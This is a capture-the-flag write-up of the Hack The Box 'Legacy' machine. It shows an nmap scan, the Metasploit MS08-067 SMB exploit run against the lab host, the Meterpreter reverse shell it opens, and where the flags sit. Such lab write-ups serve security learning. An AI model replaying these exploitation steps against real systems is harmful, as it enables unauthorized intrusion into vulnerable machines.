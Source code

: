# Title: Legacy
  Date: 2019-10-11

This is the second box in this run through of HTB machines. It was easy - much easier than the first one I did, __Lame__.

## Enumeration

I started off by running an nmap scan with version detection. The machine is XP - this should be simple!

```
$ nmap -Pn -sV legacy
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-11 11:15 CDT
Nmap scan report for legacy (10.10.10.4)
Host is up (0.040s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

I didn't really even do any research for this one, I just searched for "smb" in Metasploit. 

```
msf5 > search smb
```

And looked for old and highly rated exploits. I got lucky and the first thing I tried worked. /shrug 

This is the one I used:

```   
99   exploit/windows/smb/ms08_067_netapi                             2008-10-28       great      Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

I selected the exploit, set the RHOST and ran it:

```
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts legacy
rhosts => legacy
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.x.x:4444 -> 10.10.10.4:1028) at 2019-10-11 11:16:37 -0500

meterpreter > 
meterpreter > pwd
C:\WINDOWS\system32
```

Cool. I got a shell!

## User flag

The user flag was in C:\Documents and Settings\john\Desktop\user.txt

## Root flag

Nothing else needed to happen for root, the flag was readable here: C:\Documents and Settings\Administrator\Desktop\root.txt

## Endnotes

This one was super easy. Nothing really of note here other than it made me laugh that I guessed a working exploit. Way to make me feel good about myself, HTB!

